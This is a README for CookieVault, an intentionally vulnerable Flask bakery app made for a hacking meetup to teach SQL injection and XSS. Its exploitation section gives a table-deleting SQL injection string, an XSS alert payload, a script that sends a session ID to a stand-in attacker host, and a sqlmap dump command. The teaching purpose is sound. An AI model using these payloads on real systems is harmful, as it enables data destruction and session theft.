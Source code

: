 ## CookieVault

Basics and manual SQLi: https://youtu.be/kTwHw_RV4qg

SQLMap and Burp Suite: https://www.youtube.com/watch?v=fMw8Jgu8MgQ

Made for "Evanston Happy Hackers".

This is a simple Python+SQL app that shows how you can run a cookie bakery, and also what SQL Injection bugs are and what they can cause.

## Running

1. **Set up the virtual environment:**

    ```sh
    python3 -m venv venv
    source venv/bin/activate
    ```

2. **Install the required packages:**

    ```sh
    pip install flask
    ```

3. **Create the database and populate it with initial data:**

    ```sh
    python create_database.py
    ```

4. **Run the web application:**

    ```sh
    python run_web_app.py
    ```

5. **Access the application:**

    Open your web browser and go to `http://127.0.0.1:5000/`.

## Exploiting

To demonstrate SQL injection vulnerabilities:

1. **Update Cookie Stock:**

    - Go to the "Update Cookie Stock" section.
    - Enter a `cookie_id` and a `new_stock` value.
    - For example, to set the stock of cookie with `id=1` to 20, enter `1` for `cookie_id` and `20` for `new_stock`.

2. **SQL Injection Example:**

    - Enter a malicious input to exploit the SQL injection vulnerability that exists on the path `/update_stock`.
    - Make sure to edit the HTML form elements with `F12` to disable numeric input validation.
    - For example, to delete all cookies, enter `1; DELETE FROM cookies; --` for `cookie_id` and any value for `new_stock`.
    - This will execute the `DELETE FROM cookies` SQL command, removing all cookies from the database.

To demonstrate Cross-Site Scripting (XSS) vulnerabilities:

1. **Add Comment:**

    - Go to the "Add Comment" section.
    - Enter a comment.

2. **XSS Example:**

    - Enter a malicious script to exploit the XSS vulnerability.
    - For example, enter `<script>alert('XSS');</script>` as the comment.
    - This will execute the JavaScript code, showing an alert box with the message "XSS".

3. **Leaking Session ID:**

Enter a malicious script to leak the session ID.

For example, enter:

```js
<script>
document.addEventListener('DOMContentLoaded', function() {
    fetch('http://evil.deathstar/leak?session_id=' + document.getElementById('session_id').value);
});
</script>
```

as the comment.

This will send the session ID to the specified URL, demonstrating how XSS can be used to steal sensitive information.

Look in the F12 console to see the session ID being exfiltrated via the Network tab.


**Note:** This is for educational purposes only. Do not use SQL injection or XSS in real applications.

## Using SQLMap

   sqlmap -u "http://localhost:5000/update_stock" --data "cookie_id=1&new_stock=1" -p "cookie_id" --method POST --dump --batch

